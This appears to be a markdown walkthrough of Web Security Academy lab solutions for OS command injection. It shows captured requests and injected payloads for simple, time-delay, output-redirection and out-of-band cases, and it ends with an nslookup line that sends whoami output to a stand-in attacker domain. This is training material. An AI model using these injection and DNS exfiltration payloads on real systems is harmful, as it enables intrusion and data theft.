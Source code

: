 # OS command injection


<details>
  <summary>Lab: OS command injection, simple case</summary>

> ###  This lab contains an OS command injection vulnerability in the product stock checker.The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

> To solve the lab, execute the ``whoami`` command to determine the name of the current user. 

---

```http
POST /product/stock HTTP/2
Host: 0ab600310469ed45802f12260076000d.web-security-academy.net
Cookie: session=7KilxApzO1M9KGCtQBlkx9sG5MambgGs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab600310469ed45802f12260076000d.web-security-academy.net/product?productId=20
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0ab600310469ed45802f12260076000d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



productId=20&storeId=1
```


```url
productId=20&storeId=1|whoami
productId=20&storeId=1;whoami
```

``output``

```css
peter-uTFecW
```



  
</details>











<details>
  <summary>Lab: Blind OS command injection with time delays</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a ``10 second`` delay. 


---


```http
POST /feedback/submit HTTP/2
Host: 0aec0019044339aa8183eed900a700bb.web-security-academy.net
Cookie: session=UpWx4wsAbuhkNEr75meJinFiJae3vxOM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: https://0aec0019044339aa8183eed900a700bb.web-security-academy.net
Referer: https://0aec0019044339aa8183eed900a700bb.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com&subject=hack&message=hello;
```




```bash
csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com||ping+-c+10+127.0.0.1||&subject=hack&message=hello;
csrf=t9ieHjie7knvoadchmWRd7YqVAjtsoWX&name=hello&email=admin%40example.com||sleep+10||&subject=hack&message=hello;
```







  
</details>





<details>
  <summary>Lab: Blind OS command injection with output redirection</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:``/var/www/images/``

> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

> To solve the lab, execute the ``whoami`` command and retrieve the output. 



---

```
POST /feedback/submit HTTP/2
Host: 0ae3008f0323db578143254500a10043.web-security-academy.net
Cookie: session=7r1pMaXUqstxBss3DmNyzzo4jwQTsXF0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0ae3008f0323db578143254500a10043.web-security-academy.net
Referer: https://0ae3008f0323db578143254500a10043.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers



csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=example@admin.com&subject=c&message=d
```


```url
csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=||whoami>/var/www/images/output.txt||&subject=c&message=d
```


```url
https://0ae3008f0323db578143254500a10043.web-security-academy.net/image?filename=output.txt
```

``OUtput``

```
peter-p9zLde
```



  
</details>







<details>
  <summary>Lab: Blind OS command injection with out-of-band interaction</summary>

> ###  This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 


---


```
csrf=nM9nUcG8R4kScScJGBZNrQLLXGt5vm1U&name=a&email=||nslookup crudrnshcmhythtyywai7uanxa8alegy6.oast.fun||&subject=c&message=d
```


  
</details>






<details>
  <summary>Lab: Blind OS command injection with out-of-band data exfiltration</summary>


```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

  
</details>





























